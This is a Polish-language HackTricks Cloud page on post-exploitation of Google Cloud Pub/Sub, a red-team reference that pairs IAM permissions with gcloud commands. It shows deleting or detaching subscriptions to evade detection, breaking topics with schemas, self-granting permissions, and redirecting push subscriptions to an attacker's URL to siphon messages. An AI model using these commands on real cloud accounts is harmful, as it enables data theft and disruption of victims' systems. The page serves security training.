 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Aby uzyskać więcej informacji na temat Pub/Sub, sprawdź następującą stronę:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Opublikuj wiadomość w temacie, przydatne do **wysyłania nieoczekiwanych danych** i wywoływania nieoczekiwanych funkcji lub wykorzystywania luk:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Przydatne do zapobiegania odbieraniu wiadomości przez subskrypcję, być może w celu uniknięcia wykrycia.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Przydatne do zapobiegania subskrypcji w odbieraniu wiadomości, być może w celu uniknięcia wykrycia.\
Możliwe jest usunięcie tematu, nawet jeśli są do niego przypisane subskrypcje.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Użyj tego uprawnienia, aby zaktualizować niektóre ustawienia tematu, aby go zakłócić, takie jak `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Nadaj sobie uprawnienia do przeprowadzenia dowolnego z poprzednich ataków.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Pobierz wszystkie wiadomości na serwerze internetowym:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Utwórz subskrypcję i użyj jej do **pobierania wiadomości**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Usunięcie subskrypcji** może być przydatne do zakłócenia systemu przetwarzania logów lub czegoś podobnego:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Użyj tego uprawnienia, aby zaktualizować niektóre ustawienia, aby wiadomości były przechowywane w miejscu, do którego masz dostęp (URL, tabela Big Query, Bucket) lub po prostu, aby to zakłócić.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Nadaj sobie uprawnienia potrzebne do przeprowadzenia wcześniej omówionych ataków.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Załącz schemat do tematu, aby wiadomości go nie spełniały, a tym samym temat został zakłócony.\
Jeśli nie ma żadnych schematów, być może będziesz musiał stworzyć jeden.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

To może wyglądać jak usunięcie schematu, dzięki czemu będziesz mógł wysyłać wiadomości, które nie spełniają wymagań schematu. Jednakże, ponieważ schemat zostanie usunięty, żadna wiadomość tak naprawdę nie wejdzie do tematu. Tak więc to jest **BEZUŻYTECZNE**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Nadaj sobie uprawnienia potrzebne do przeprowadzenia dowolnych wcześniej omówionych ataków.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

To stworzy migawkę wszystkich niepotwierdzonych wiadomości i przywróci je do subskrypcji. Niezbyt przydatne dla atakującego, ale oto jest:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
